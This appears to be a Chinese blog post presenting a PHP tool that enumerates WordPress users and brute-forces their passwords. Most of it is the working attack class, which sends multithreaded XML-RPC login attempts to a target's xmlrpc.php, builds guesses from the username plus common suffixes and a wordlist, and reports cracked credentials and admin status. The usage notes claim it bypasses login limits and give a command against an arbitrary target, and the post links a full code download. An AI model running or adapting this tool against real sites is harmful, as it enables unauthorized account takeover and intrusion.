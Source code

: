 ```yaml
---
title: wordpress 用户枚举，爆破工具
date: 2015-2-6 19:39
tags: php控
---
```


> 欢迎对该工具进行修改优化，转载请注明原作者，写代码不易。

**为什么不用`wpscan`?**
>闲着蛋疼写着玩。

![2019-07-21-00-46-17](https://wolvez.oss-cn-hangzhou.aliyuncs.com/32348811296e75c15082c635cb39fde1.png)

**核心代码**

```php
<?php
include 'init.php';
define("user", $argv[2]);
class BruteWordPress
{
    private $rc;
    function __construct() {
        $this->rc = new RollingCurl();
        $this->rc->callback = $this->create_request_callback($this->rc);
        $this->rc->__set('window_size', Thread);
        $this->rc->__set('time_out', TimeOut);
    }
    
    function create_request_callback($rc) {
        return function ($response, $info, $request) use ($rc) {
            if ($info['http_code'] == 404 || $info['http_code'] == 403 || $info['http_code'] == 500) {
                echo '[-] Access error!' . PHP_EOL;
                $this->rc->cancelRequests();
            }
            
            $p = $request->post_data;
            preg_match_all('/<param><value>([^\s]+?)<\/value><\/param>/', $p, $m);
            $user = $m[1][0];
            $pass = $m[1][1];
            if (!preg_match('/<boolean>(\d)<\/boolean>/', $response, $is_admin)) {
                
                //echo '[*] Brote user ' . $user . " ..." . "\r";
                
                
            } else {
                
                //print_r($is_admin).PHP_EOL;
                if ($is_admin[1] == 1) {
                    echo '[+] Bruteed~ -> ' . iconv("UTF-8","GB18030//IGNORE",$user)  . ':' . $pass . ' [is admin]' . PHP_EOL;
                    $this->rc->cancelRequests();
                } else {
                    echo '[+] Bruteed~ -> ' . iconv("UTF-8","GB18030//IGNORE",$user)  . ':' . $pass . PHP_EOL;
                    $this->rc->cancelRequests();
                }
            }
        };
    }
    
    function run() {
        $pass_file = preg_replace('/\s$/', "", file(wordlist));
        $user_pre = array('123', '111', '1', 'a', 'pass', '!@#', 'password', 'abc', '1961', '1962', '1963', '1970', '1988', '1989', '1990', '1991', '1992', '1993', '1994', '1995', '1996', '1997', '1998', '1999', '2001', '2002', '2003', '2004', '2006', '2005', '2007', '2008', '2009', '2010', '2011', '2012', '2013', '2014', '2015');
        foreach ($user_pre as $pre) {
            $pre_u[] = user . $pre;
        }
        $p = array_merge($pre_u, $pass_file);
        $passwords = array_unique($p);
        array_unshift($passwords, user);
        
        foreach ($passwords as $pass) {
            $url = domain . '/xmlrpc.php';
            $post_data = sprintf('<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>%s</value></param><param><value>%s</value></param></params></methodCall>', user, $pass);
            $request = new RollingCurlRequest($url, 'POST', $post_data);
            $request->options = $GLOBALS["cUrl_options"]; 
            $this->rc->add($request);
        }
        $this->rc->execute();
    }
}

$brute = new BruteWordPress();
$brute->run();
?>
```



**说明:**
1. 使用非常简单无需其它参数
`php scan.php http://www.target.com`

2. 多线程同时进行,跑完一个用户成功立即退出该任务接着破另外一个用户

3. 自动生成用户名相关并加到字典头部 大大的提高破解速度

4. 模块可单独使用

6. 枚举用户模块 能抓取大部分常规 wordpress站点用户
检查枚举到的用户是否为登陆用户如果不是则剔除大大的提高破解效率

6. 该脚本 需curl 扩展支持

7. 利用wordpress 的xmlrpc.php 文件破解
可绕过限制并判断是否为管理员用户

8. 环境简单
仅需 php.exe 、php5ts.dll 、curl.dll 


**文件说明**
```text
init.php 配置及功能函数
enum_user.php 根据页面枚举用户
chkuser.php 检测枚举到的用户是否为可登陆用户
RollingCurl.php 多线程http请求类 （修改版）
BruteWordPress.php 爆破类
scan.php 主文件(要运行的文件)
```
[绿色php环境](https://wolvez.oss-cn-hangzhou.aliyuncs.com/files/php.zip)
[完整代码下载](https://wolvez.oss-cn-hangzhou.aliyuncs.com/files/wpbt.zip)




